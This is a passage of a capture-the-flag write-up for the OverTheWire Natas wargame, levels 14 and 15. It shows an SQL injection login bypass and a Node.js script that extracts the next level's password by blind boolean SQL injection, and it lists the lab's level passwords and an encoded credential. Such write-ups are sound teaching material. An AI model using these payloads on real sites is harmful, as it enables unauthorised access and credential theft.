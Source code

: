### Level 14 `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`
- We see that a query is created the values we enter in the textboxes.
- In the form's action property, we change the value from "index.php" to "index.php?debug=1" to trigger the sql output.
- We enter `natas" or username like "%" -- ` in username box and nothing in password is required because the rest of the query is commented.
- The following query gets executed:
```sql
SELECT * from users where username="natas" or username like "%" -- " and password=""
```
- We get the password.

### Level 15 `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`
- The php code basically checks for the presence of a user in the database. What's different is that this time we're given the table name and column names as well.
- Since there's other info available we try for the user `natas16` and we actually see that this user exists.
- Again due to the lack of possiblities, it is safe to assume that the password associated with user `natas16` is actuall the password for the next level.
- Since there's no way to actually get the output of the SQL Query (other than a boolean of wheather user exists or not) we have to brute-force the password out of the database.
- I'm brute-forcing it with Node.js:
```javascript
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/', (req, res) => res.send('Hello World!'));

const headers = {
    'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='
}
async function req(ch) {
    const res = await axios.post('http://natas15.natas.labs.overthewire.org/index.php', `username=natas16%22+and+password+like+binary+%22${ch}%25`, {headers});
    if(res.data.includes('This user exists.')) {
        return true;
    } else {
        return false;
    }
}

async function calc() {
    const alphanum = 'QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890';
    let ans = '';
    
    for(let i=0; i<alphanum.length; i++) {
        let val = await req(ans + alphanum[i]);
        if(val) {
            ans += alphanum[i];
            console.log(ans);
            i = -1;
        }
    }
    console.log('fin');
}

calc();

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`));

// Outputs
```